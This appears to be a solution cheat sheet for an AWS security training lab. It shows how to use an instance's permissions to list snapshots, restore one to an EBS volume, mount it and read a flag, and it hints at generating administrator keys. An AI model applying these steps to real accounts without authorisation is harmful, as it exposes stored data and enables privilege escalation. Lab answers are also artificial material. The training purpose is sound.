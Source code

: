 # Mission 3 cheat sheet


This mission serves to introduce users to snapshots, EBS volumes and mounting.


  * Given: Instance ip, SSH key
  * Variables: $id, $instance_ip


$ `ssh -i ssh_key.pem ec2-user@$instance_ip`

Log into the instance to look around.


$ `aws --region us-east-1 ec2 describe-instances`

Find the current instance id, and the account owner id.
These will now be called $instance_id and $owner_id respectively.


$ `aws --region us-east-1 ec2 describe-snapshots --owner-id $owner_id`

List the snapshots currently owned by the account.
There is one snapshot. Its id will be called $snapshot_id


$ `aws --region us-east-1 ec2 create-volume --availability-zone us-east-1a --snapshot-id $snapshot_id`

Create an EBS volume using this snapshot. Its id is called $ebs_id.


## Route 1: Mount the volume on the current instance

$ `aws --region us-east-1 ec2 attach-volume --device sdh --volume-id $ebs_id --instance-id $instance_id`

Attach the newly made volume to the instance. Here, it is attached as sdh, and the rest of the instructions will consider that you attached it as sdh as well.


$ `sudo su; mount -t xfs -o nouuid /dev/xvdh1 /mnt`

Only root can use -o options on mount, so switch to root. Mount xvdh1 (partition of sdh) on /mnt while specifying the filesystem type (xfs) and avoiding uuid checks (-o nouuid). This is required since both volumes are actually the same at different points in time, so their uuid are the same.


## Route 2: Create a new instance and mount the volume there

$ `aws --region us-east-1 ec2 describe-images --owners amazon --filters 'Name=name,Values=amzn-ami-hvm-????.??.?.????????-x86_64-gp2' 'Name=state,Values=available' --query 'reverse(sort_by(Images, &CreationDate))[:1].ImageId' --output text`

Find the latest Amazon Linux AMI, called $ami_id afterwards. Note that you can also use that of the other instance by describing it.
This command is not really something to know. [AWS displays it openly on their help website.](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/finding-an-ami.html#finding-an-ami-parameter-store)


$ `aws --region us-east-1 ec2 describe-instances`

Find the name of the key-pair this instance is using, called $key_pair from now on. Also note the security group id, called $sg_id


$ `aws --region us-east-1 ec2 run-instances --image-id $ami_id --key-name $key_pair --security-group-ids $sg_id`

Start a new instances with parameters that allow you to access it. Amazon Linux is chosen here, but you can use whichever. Note the new instance id as $new_instance_id.


$ `aws --region us-east-1 ec2 attach-volume --device sdh --volume-id $ebs_id --instance-id $new_instance_id`

Attach the volume to the new instance.


$ `ssh -i ssh_key.pem ec2-user@<private ip of new instance>`

Access the new instance. You may have to fetch ssh_key.pem from your own terminal.


$ `mount -t xfs /dev/xvdh1 /mnt`

Mount xvdh1 (partition of sdh) on /mnt while specifying the filesystem type (xfs).


## With the volume mounted

$ `cd mnt/home/ec2-user; ls; cd chonks; cat flag.txt`

You win! Note that the instance has the required privileges to generate administrator AWS keys...


## Remember

**Delete anything you created before attempting to destroy the mission. This includes volumes, instances, and so on. The snapshot is destroyed by the script, so do not worry about that.**